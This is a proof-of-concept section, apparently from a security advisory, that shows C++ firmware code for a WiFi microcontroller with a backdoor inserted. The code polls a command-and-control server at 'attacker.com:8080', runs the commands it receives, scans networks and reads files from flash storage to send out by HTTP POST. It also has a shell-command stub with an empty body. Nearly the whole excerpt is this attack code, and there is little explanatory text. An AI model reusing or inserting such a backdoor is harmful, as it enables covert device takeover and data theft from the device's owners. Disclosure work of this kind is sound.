 ### Proof of Concept

**1. Backdoored Firmware Creation:**

```cpp
// malicious_main.cpp
#include <WiFi.h>
#include <HTTPClient.h>

// Original includes...
#include <WebServer.h>
// ... (all original includes)

// Backdoor configuration
const char* C2_SERVER = "http://attacker.com:8080/command";
const unsigned long C2_INTERVAL = 60000; // Check every minute

unsigned long lastC2Check = 0;

// Backdoor functions
void executeCommand(String cmd) {
    if (cmd == "scan") {
        // Scan network
        int n = WiFi.scanNetworks();
        sendToC2("Network scan: " + String(n) + " devices");
    }
    else if (cmd.startsWith("download:")) {
        // Exfiltrate file
        String filename = cmd.substring(9);
        File f = LittleFS.open(filename, "r");
        String content = f.readString();
        f.close();
        sendToC2("File " + filename + ": " + content);
    }
    else if (cmd.startsWith("shell:")) {
        // Execute system command
        String shellCmd = cmd.substring(6);
        // Execute and send output
    }
}

void checkC2() {
    if (WiFi.status() != WL_CONNECTED) return;
    
    HTTPClient http;
    http.begin(C2_SERVER);
    int httpCode = http.GET();
    
    if (httpCode == 200) {
        String command = http.getString();
        executeCommand(command);
    }
    
    http.end();
}

void sendToC2(String data) {
    HTTPClient http;
    http.begin(C2_SERVER);
    http.POST(data);
    http.end();
}

// Insert backdoor into main loop
```